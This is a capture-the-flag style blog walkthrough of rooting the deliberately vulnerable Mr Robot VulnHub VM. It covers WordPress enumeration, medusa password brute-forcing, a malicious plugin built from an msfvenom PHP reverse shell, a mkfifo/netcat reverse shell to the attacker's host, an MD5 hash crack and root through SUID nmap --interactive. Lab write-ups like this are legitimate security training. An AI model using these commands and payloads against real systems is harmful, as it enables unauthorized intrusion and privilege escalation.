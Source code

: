 ```yaml
---
layout: post
title: Mr Robot VM Walkthrough
---
```


# Walkthrough

![]({{ site.url }}/public/posts/mrrobot/mr-robot.png)

As stated, this machine wasn't too difficult but it was fun nevertheless. I rooted it as part of a work presentation to showcase a common intrusion scenario.

[Mr Robot on Vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/)

## Enumeration

Running Nikto against the IP, we have a few indications of vulnerabilities, the most interesting (for now) being this one:

> -   Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad

If we check robots.txt's contents, it's indeed interesting:

```sh
curl http://$ip/robots.txt
```

```
User-agent: \*
fsocity.dic 
key-1-of-3.txt
```

Checking the files, one of them is obviously one of the keys, the other seems to be a dictionary file. Maybe it'll be useful later? (Spoilers: it will)

Nikto also shows us that this is a wordpress installation. Its version is under <http://mrrobot/wp-links-opml.php>, and it is WordPress/4.3.16.

Seems like there are some vulnerabilities we can use.

Let's check for extra info there:

```sh
wpscan --url $ip
```

## Low-privilege shell

Now we can try to crack the password using the given dictionary file and username elliot (how I found it? Guessing. Not surprising for a VM called 'Mr Robot', huh? You could say this is part of information gathering, social engineering or whatever. It's why any small piece of info matters for an attacker.)

```sh
medusa -f -h mrrobot -u elliot -P /root/vulnhub/mrrobot/fsocity.dic -M web-form -m FORM:"wp-login.php" -m DENY-SIGNAL:"ERROR" -m FORM-DATA:"post?log=&pwd=&"
```

After a non-trivial amount of time, we figured out the password is ER28-0652. On to the admin panel!

Tip: We can check for vulnerable versions of plugins with the following command:

```sh
wpscan --url http://$ip --enumerate vp
```

We can upload a malicious plugin to give us access to the WP host. Basically it's a PHP file with some extra stuff added.

```sh
msfvenom -p php/reverse_php LHOST="$iattacker" LPORT=80 2>>/dev/null
```

After editing it under wp-rev-shell.php, we'll get a WP plugin, something that looks like the following:

```php
 <?php
/**
 * Plugin Name: RevShell
 * Version: 5.10.3
 * Author: Progfrog
 * Author URI: http://Progfrog.com
 * License: GPL2
 */
// msfvenom payload here, omitted for brevity...
?>
```

Then we can zip it:

```sh
zip plugin.zip wp-rev-shell.php
```

After adding it there and activating it, we can get a reverse shell by visiting <http://mrrobot/wp-content/plugins/revshell_/wp-rev-shell.php>:

Apparently we have something readable under /home/robot:

```sh
cat /home/robot/password.raw-md5
```

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Guess what is that? A password that we can crack with some feline help:

![]({{ site.url }}/public/posts/mrrobot/hashcat-crazy.gif)

```sh
echo c3fcd3d76192e4007dfb496cca67e13b > password.raw.md5
```

```sh
hashcat -a 0 password.raw.md5 --force
```

Or, if you value your time and your machine's ALU, go to <https://crackstation.net/> and paste the hash there. It'll spit out that the password is abcdefghijklmnopqrstuvwxyz.

Unfortunately we still need to get a proper tty. We're running code in context of the web server, which is why 1) our session is short-lived and 2) we never get a tty. We can use <span class="underline">another</span> session to spawn a proper interactive shell and go from there.

Apparently we're running bash, so we can use some of the [usual bash tricks](https://highon.coffee/blog/reverse-shell-cheat-sheet/) for getting a reverse shell:

```sh
rm /tmp/pipe;mkfifo /tmp/pipe;cat /tmp/pipe|/bin/sh -i 2>&1|nc $iattacker 9999 >/tmp/pipe
```

Then we can finally use the discovered password:

```sh
su robot
```

Another step closer:

```sh
cd ~
cat key-2-of-3.txt
```

```
822c73956184f694993bede3eb39f959
```

## Privilege escalation

Let's run the usual recon scripts:

```sh
cd /tmp
wget iattacker/linuxprivchecker.py
python linuxprivchecker.py > /tmp/lpc-results.txt
```

Looking at this file, we can see something interesting under the SUID binaries: nmap is there. It shouldn't be, since it allows us to execute code with the '&#x2013;interactive' flag, even pop a shell. Let's see if it works&#x2026;

```sh
nmap --interactive
```

```sh
!sh
```

In this new shell, who are we?

```sh
id
```

```
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

This means that now we can do everything in the system, and our work here is done.

![]({{ site.url }}/public/posts/mrrobot/groot-dance.gif)
